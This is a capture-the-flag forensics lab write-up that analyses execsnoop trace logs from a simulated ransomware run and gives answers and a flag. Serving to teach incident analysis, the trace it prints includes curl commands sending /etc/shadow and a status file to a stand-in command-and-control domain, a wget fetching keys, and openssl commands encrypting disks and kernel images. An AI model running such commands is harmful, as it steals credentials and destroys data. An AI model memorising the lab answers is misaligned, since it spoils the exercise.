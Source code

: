 #### 5. Execsnoop: Trace Analysis

----

Performance monitoring and tracking tools can provide a wealth of information about a running system. In some cases, they can help identify anomalies which could have been caused by a security incident.

----

In this lab, we will analyze [`Execsnoop script's`](https://github.com/iovisor/bcc/blob/master/tools/execsnoop.py) trace logs to unearth suspicious activity. Please start the lab, answer the below questions and submit the flags to verify:

- The ransomware contacts the Command-and-Control server to register and fetch the encryption keys. What is the domain name of the Command-and-Control server?

```sh
root@attackdefense:~# less logs
Tracing exec()s. Ctrl-C to end.
Instrumenting sys_execve
   PID   PPID ARGS
 13628  13624 mawk -W interactive -v o=1 -v opt_name=0 -v name= [...]
 13629  13627 cat -v trace_pipe
 13632  88705 sudo python 1-execsnoop.py
 13633  13632 python 1-execsnoop.py
 13634  13633 nslookup some-random-domain.dev.local
 13635  13633 curl some-random-domain.dev.local?activate=true
 13636  13633 wget -O /root/.hidden/keys some-random-domain.dev.local/getKeys?ip=192.168.1.19
 13637  13633 curl -F data='@/etc/shadow' some-random-domain.dev.local
 13638  13633 whoami
 13639  13633 openssl enc -aes-256-cbc -salt -in /vmlinuz -out /vmlinuz.locked -pass: file:/root/.hidden/keys
 13640  13633 openssl enc -aes-256-cbc -salt -in /vmlinuz.old -out /vmlinuz.old.locked -pass: file:/root/.hidden/keys
 13641  13633 openssl enc -aes-256-cbc -salt -in /initrd.img.old -out /initrd.img.old.locked -pass: file:/root/.hidden/keys
 13642  13633 openssl enc -aes-256-cbc -salt -in /initrd.img -out /initrd.img.locked -pass: file:/root/.hidden/keys
 13643  13633 nslookup another-random-domain.dev.local
 13644  13633 curl -F data='@/root/.invisible/status' some-random-domain.dev.local
 13645  13633 openssl enc -aes-256-cbc -salt -in /dev/vcsa7 -out /dev/vcsa7.locked -pass: file:/root/.hidden/keys
 13646  13633 openssl enc -aes-256-cbc -salt -in /dev/vcs7 -out /dev/vcs7.locked -pass: file:/root/.hidden/keys
 13647  13633 openssl enc -aes-256-cbc -salt -in /dev/dvd -out /dev/dvd.locked -pass: file:/root/.hidden/keys
 13648  13633 openssl enc -aes-256-cbc -salt -in /dev/cdrw -out /dev/cdrw.locked -pass: file:/root/.hidden/keys
 13649  13633 openssl enc -aes-256-cbc -salt -in /dev/cdrom -out /dev/cdrom.locked -pass: file:/root/.hidden/keys
 13650  13633 openssl enc -aes-256-cbc -salt -in /dev/vsock -out /dev/vsock.locked -pass: file:/root/.hidden/keys
 13651  13633 openssl enc -aes-256-cbc -salt -in /dev/vmci -out /dev/vmci.locked -pass: file:/root/.hidden/keys
 13652  13633 openssl enc -aes-256-cbc -salt -in /dev/vcsa6 -out /dev/vcsa6.locked -pass: file:/root/.hidden/keys
 13653  13633 openssl enc -aes-256-cbc -salt -in /dev/vcs6 -out /dev/vcs6.locked -pass: file:/root/.hidden/keys
 13654  13633 openssl enc -aes-256-cbc -salt -in /dev/vcsa5 -out /dev/vcsa5.locked -pass: file:/root/.hidden/keys
 13655  13633 openssl enc -aes-256-cbc -salt -in /dev/vcs5 -out /dev/vcs5.locked -pass: file:/root/.hidden/keys
 13656  13633 openssl enc -aes-256-cbc -salt -in /dev/vcsa4 -out /dev/vcsa4.locked -pass: file:/root/.hidden/keys
 13657  13633 openssl enc -aes-256-cbc -salt -in /dev/vcs4 -out /dev/vcs4.locked -pass: file:/root/.hidden/keys
 13658  13633 openssl enc -aes-256-cbc -salt -in /dev/vcsa3 -out /dev/vcsa3.locked -pass: file:/root/.hidden/keys
 13659  13633 openssl enc -aes-256-cbc -salt -in /dev/vcs3 -out /dev/vcs3.locked -pass: file:/root/.hidden/keys
 13660  13633 openssl enc -aes-256-cbc -salt -in /dev/vcsa2 -out /dev/vcsa2.locked -pass: file:/root/.hidden/keys
 13661  13633 openssl enc -aes-256-cbc -salt -in /dev/vcs2 -out /dev/vcs2.locked -pass: file:/root/.hidden/keys
 13662  13633 openssl enc -aes-256-cbc -salt -in /dev/vhost-vsock -out /dev/vhost-vsock.locked -pass: file:/root/.hidden/keys
 13663  13633 openssl enc -aes-256-cbc -salt -in /dev/vhost-net -out /dev/vhost-net.locked -pass: file:/root/.hidden/keys
 13664  13633 openssl enc -aes-256-cbc -salt -in /dev/uhid -out /dev/uhid.locked -pass: file:/root/.hidden/keys
 13665  13633 openssl enc -aes-256-cbc -salt -in /dev/vhci -out /dev/vhci.locked -pass: file:/root/.hidden/keys
 13666  13633 openssl enc -aes-256-cbc -salt -in /dev/userio -out /dev/userio.locked -pass: file:/root/.hidden/keys
 13667  13633 openssl enc -aes-256-cbc -salt -in /dev/btrfs-control -out /dev/btrfs-control.locked -pass: file:/root/.hidden/keys
 13668  13633 openssl enc -aes-256-cbc -salt -in /dev/cuse -out /dev/cuse.locked -pass: file:/root/.hidden/keys
 13669  13633 openssl enc -aes-256-cbc -salt -in /dev/log -out /dev/log.locked -pass: file:/root/.hidden/keys
 13670  13633 openssl enc -aes-256-cbc -salt -in /dev/initctl -out /dev/initctl.locked -pass: file:/root/.hidden/keys
 13671  13633 openssl enc -aes-256-cbc -salt -in /dev/autofs -out /dev/autofs.locked -pass: file:/root/.hidden/keys
 13672  13633 openssl enc -aes-256-cbc -salt -in /dev/sda5 -out /dev/sda5.locked -pass: file:/root/.hidden/keys
 13673  13633 openssl enc -aes-256-cbc -salt -in /dev/sda2 -out /dev/sda2.locked -pass: file:/root/.hidden/keys
 13674  13633 openssl enc -aes-256-cbc -salt -in /dev/sda1 -out /dev/sda1.locked -pass: file:/root/.hidden/keys
 13675  13633 openssl enc -aes-256-cbc -salt -in /dev/sg2 -out /dev/sg2.locked -pass: file:/root/.hidden/keys
 13676  13633 openssl enc -aes-256-cbc -salt -in /dev/sda -out /dev/sda.locked -pass: file:/root/.hidden/keys
 13677  13633 openssl enc -aes-256-cbc -salt -in /dev/fb0 -out /dev/fb0.locked -pass: file:/root/.hidden/keys
 13678  13633 openssl enc -aes-256-cbc -salt -in /dev/hidraw0 -out /dev/hidraw0.locked -pass: file:/root/.hidden/keys
 13679  13633 openssl enc -aes-256-cbc -salt -in /dev/sg1 -out /dev/sg1.locked -pass: file:/root/.hidden/keys
 13680  13633 openssl enc -aes-256-cbc -salt -in /dev/sr1 -out /dev/sr1.locked -pass: file:/root/.hidden/keys
 13681  13633 openssl enc -aes-256-cbc -salt -in /dev/sg0 -out /dev/sg0.locked -pass: file:/root/.hidden/keys
 13682  13633 openssl enc -aes-256-cbc -salt -in /dev/sr0 -out /dev/sr0.locked -pass: file:/root/.hidden/keys
 13683  13633 openssl enc -aes-256-cbc -salt -in /dev/rtc -out /dev/rtc.locked -pass: file:/root/.hidden/keys
```

```
some-random-domain.dev.local
```

- What is the password used for encrypting the files?

```sh
root@attackdefense:~# cat /root/.hidden/keys
a53d2e081e92b6cb082a2ce428929a4d
root@attackdefense:~#
```

- Which encryption scheme is used to encrypt the files?

```
aes-256-cbc
```

- The ransomware periodically tries to resolve the IP address of a kill-switch server. What is its domain name?

```
another-random-domain.dev.local
```

- The ransomware prepares a status report file and sends it to the Command-and-Control server. Provide the full path of the status file.

```
/root/.invisible/status
```

- Retrieve the flag kept in the status report file.

```sh
root@attackdefense:~# cat /root/.invisible/status
-== RansomLocker Report ==-

Encryption Status:      100% complete
Completion Time:        13:00:08 UTC
HOST:                   192.168.1.19
FLAG:                   02bf7f5ce8edca8813951916c5e26cc6
root@attackdefense:~#
```

----

###### Reference

- [`Execsnoop script`](https://github.com/iovisor/bcc/blob/master/tools/execsnoop.py)
- [`Execsnoop Examples`](https://github.com/iovisor/bcc/blob/master/tools/execsnoop_example.txt)
- [`BCC Tools`](https://github.com/iovisor/bcc)

----

EOF
